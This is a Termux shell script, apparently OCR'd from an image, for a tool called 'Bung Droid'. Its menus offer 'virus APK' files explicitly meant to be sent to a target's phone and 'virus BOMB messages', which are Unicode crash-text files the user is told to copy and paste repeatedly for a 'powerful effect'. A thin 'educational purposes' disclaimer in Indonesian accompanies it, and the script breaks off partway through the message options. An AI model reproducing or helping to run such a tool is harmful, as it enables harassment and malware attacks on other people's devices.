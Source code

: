 #!/system/bin/sh   clear
echo -e "\e[33m•••SUBSCRIBE DULU LAH YA CHANNEL SAYA \e[36mKALAU GAK SUBSCRIBE GAK KONEK\e[33m•••"   echo " "   echo -e "\e[1m\e[33m============================================\e[21m"   echo " "   echo -e "\e[33m Welcome to [\e[1m\e[32mBUNG DROID\e[21m\e[31m V 2.3\e[33m]"   echo " "   sleep 1   echo -e "\e[1m\e[33m============================================\e[21m"   echo " "   echo -e "\e[33m•••Script by \e[36mHenari mualimin\e[33m•••"   echo " "   echo -e "\e[1m\e[33m••••••••••••••••••••••••••••••••••••••••••••\e[21m"   echo " "   sleep 1   echo -e "\e[92mChecking Packages Installed!"   echo " "   echo -e "\e[1m\e[33m^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^\e[21m"   sleep 2   dpkg -s figlet &amp;> /dev/null      if [ $? -eq 0 ]; then       echo " "              echo -e "\e[92m • Figlet installed ✅"   echo " "       else       echo " "           echo -e "\e[31m • Installing Figlet..."           echo " "           sleep 1           pkg install figlet -y           echo " "           echo -e "\e[92m • Figlet installed ✅"           echo " "              fi   sleep 1      dpkg -s pv &amp;> /dev/null      if [ $? -eq 0 ]; then       echo -e "\e[92m • Pv installed ✅"   echo " "   else       echo -e "\e[31m • Installing Pv..."               echo " "               sleep 1           pkg install pv -y           echo " "           echo -e "\e[92m • Pv installed ✅"               echo " "              fi      sleep 1      dpkg -s man &amp;> /dev/null      if [ $? -eq 0 ]; then       echo -e "\e[92m • Man installed ✅"               echo " "   else       echo -e "\e[31m • Installing Man..."               echo " "               sleep 1           pkg install man -y           echo " "           echo -e "\e[92m • man installed ✅"                   echo " "        fi               sleep 1      echo -e "\e[1m\e[33m^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^\e[21m"       echo " "                        echo -e "\e[36m >>> STARTING VIRUS..."                       echo " "                       sleep 2                          clear   echo -e "\e[1m\e[35m¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥\e[21m"   echo -e "\e[31m"   figlet "Bung"   figlet "Droid 3.0"   echo -e "\e[31m"   echo -e "\e[1m\e[35m¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥\e[21m"      echo " "   echo -e "\e[93m\e[44mDIBACA BROOOOOO SEBELUM MENJALANKAN!!!!!! ("")"|pv -qL 20   echo -e "\e[44mSC  ini hanya digunakan Untuk tujuan pendidikan Yaaah BRO PAHAM ORAAA    "|pv -qL 20   echo -e "\e[44m   KALAU GAK PAHAM SAYA ENT*T KAMU BRO | OH IYA DI SC INI JANGAN PERNAH INSTALL VIRUS APK DI HPMU YAH RESIKO TANGGUNG SENDIRI        "|pv -qL 20   echo -e "\e[93m\e[44mDAN JANGAN LUPA SUBSCRIBE CHANNEL SAYA BUNG DROID BIAR BERKAH  ("")"|pv -qL 20   echo -e "\e[49m"   echo -e "\e[1m\e[91m××××××××××××××××××××××××××××××××××××××××××××\e[21m"   sleep 1   echo -e "\e[92m "   read -r -s -p $'klik Enter Untuk Melanjutkan...\n'   clear   function back_option(){       clear   echo -e "\e[1m\e[35m¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥\e[21m"   echo -e "\e[31m"   figlet "Bung"   figlet "Droid 2.3"   echo -e "\e[31m"   echo -e "\e[1m\e[35m¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥\e[21m"   sleep 1   echo " "   echo -e "\e[32m[1]\e[32m VIRUS APK [WARNING]JANGAN INSTALL DI HPMU  | TAPI KIRIM KE TARGETMU  "   echo " "   echo -e "\e[32m[2]\e[32m VIRUS MESSAGES "   echo -e "\e[33m "   read -p "CHOOSE AN OPTION : " optionfirst   if [ $optionfirst -eq 2 ]   then    clear      echo -e "\e[1m\e[35m¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥\e[21m"   echo -e "\e[31m"   figlet "Bung"   figlet "Droid 2.3"   echo -e "\e[31m"   echo -e "\e[1m\e[35m¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥\e[21m"   sleep 1   echo " "   echo -e "\e[91m[1]\e[32m Minimum Range Virus BOMB Message"   echo " "   echo -e "\e[91m[2]\e[33m Medium Range Virus BOMB Message"   echo " "   echo -e "\e[91m[3]\e[35m Maximum Range Virus BOMB Message"   echo " "   echo -e "\e[91m[4]\e[31m To Download POWER Virus BOMB Message"      echo -e "\e[36m "      read -p "CHOOSE AN OPTION : " option1    if [ $option1 -eq 1 ]   then    clear      echo -e "\e[1m\e[35m¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥\e[21m"   echo -e "\e[31m"   figlet "BUNG"   figlet "DROID 3.0"   echo -e "\e[31m"   echo -e "\e[1m\e[35m¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥¥\e[21m"   echo " "      echo -e "\e[92m Minimum Range Virus Bomb Messages"|pv -qL 20   echo -e "\e[96m___________________________________"   echo " "   sleep 1   echo -e "\e[91m[1]\e[32m Mãlåyálām Virus BOMB Message"   echo -e "\e[91m[2]\e[32m _̷̩̇̕_̴̬̚ Powerful Very Short BOMB Message"   echo -e "\e[91m[3]\e[32m Tïgêr håçkër BOMB Message"   echo -e "\e[91m[4]\e[32m į❤️ų Virus BOMB Message"   echo -e "\e[91m[5]\e[32m ĻŐVę Virus BOMB Message"   echo -e "\e[91m[6]\e[32m T̷͉̀ī̶̹g̷͎͐e̷̗̐ṛ̵̾ Powerful Shot BOMB Message"   echo -e "\e[91m[7]\e[32m Ãräbïç Virus BOMB Message"   echo -e "\e[91m[8]\e[32m ßéçïål Virus BOMB Message"   echo -e "\e[91m[9]\e[32m üñkñøwñ Virus BOMB Message"   echo -e "\e[91m[10]\e[32m Døt.Readmore BOMB Virus Message"      echo -e "\e[36m "   read -p "CHOOSSE AN OPTION : " option2   echo " "   if [ $option2 -eq 1 ]   then    echo -e "\e[32m~Downloading Min Virus BOMB Message 1"|pv -qL 20   sleep 1   echo -e "\e[94m"   cd •   cp Tvirus1. ..   cd ..   mv Tvirus1. Tvirus1.txt      echo "••••••••••••••••••100%"|pv -qL 10   echo " "   sleep 1   echo -e "\e[92mTviris1.txt File Downloaded Successfully"   echo " "   sleep 1   echo -e "\e[96mNow Type :- cp Tvirus1.txt /sdcard "   echo -e "\e[96mTo COPY The Tvirus Text File To "   echo -e "\e[96mYour INTERNAL STORAGE "   echo -e "\e[96mCopy Paste The Text Several Times"   echo -e "\e[96mTo Get Powerful Effect"   echo -e "\e[96mOr Type :- cat Tvirus1.txt"   echo -e "\e[96mThen COPY The Text "   elif [ $option2 -eq 2 ]   then   echo -e "\e[32m~Downloading Min Virus BOMB Message 2"|pv -qL 20   sleep 1   echo -e "\e[94m"   cd •